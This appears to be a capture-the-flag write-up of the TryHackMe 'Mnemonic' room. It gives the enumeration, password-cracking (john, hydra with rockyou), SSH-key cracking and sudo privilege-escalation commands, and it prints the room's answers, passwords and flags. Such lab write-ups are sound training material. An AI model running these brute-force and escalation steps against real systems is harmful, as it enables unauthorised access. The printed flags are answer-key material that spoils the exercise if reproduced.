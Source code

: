 # Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](../.gitbook/assets/image%20%28180%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](../.gitbook/assets/image%20%28152%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](../.gitbook/assets/image%20%28179%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28158%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28178%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](../.gitbook/assets/image%20%28147%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](../.gitbook/assets/image%20%28148%29.png)

![](../.gitbook/assets/image%20%28165%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28146%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](../.gitbook/assets/image%20%28189%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](../.gitbook/assets/image%20%28144%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](../.gitbook/assets/image%20%28160%29.png)

![](../.gitbook/assets/image%20%28145%29.png)

![](../.gitbook/assets/image%20%28159%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](../.gitbook/assets/image%20%28163%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](../.gitbook/assets/image%20%28190%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](../.gitbook/assets/image%20%28157%29.png)

![](../.gitbook/assets/image%20%28164%29.png)

![](../.gitbook/assets/image%20%28171%29.png)

![](../.gitbook/assets/image%20%28134%29.png)

![](../.gitbook/assets/image%20%28169%29.png)

![](../.gitbook/assets/image%20%28170%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](../.gitbook/assets/image%20%28151%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](../.gitbook/assets/image%20%28139%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](../.gitbook/assets/image%20%28186%29.png)

![](../.gitbook/assets/image%20%28142%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](../.gitbook/assets/image%20%28188%29.png)

![](../.gitbook/assets/image%20%28140%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}


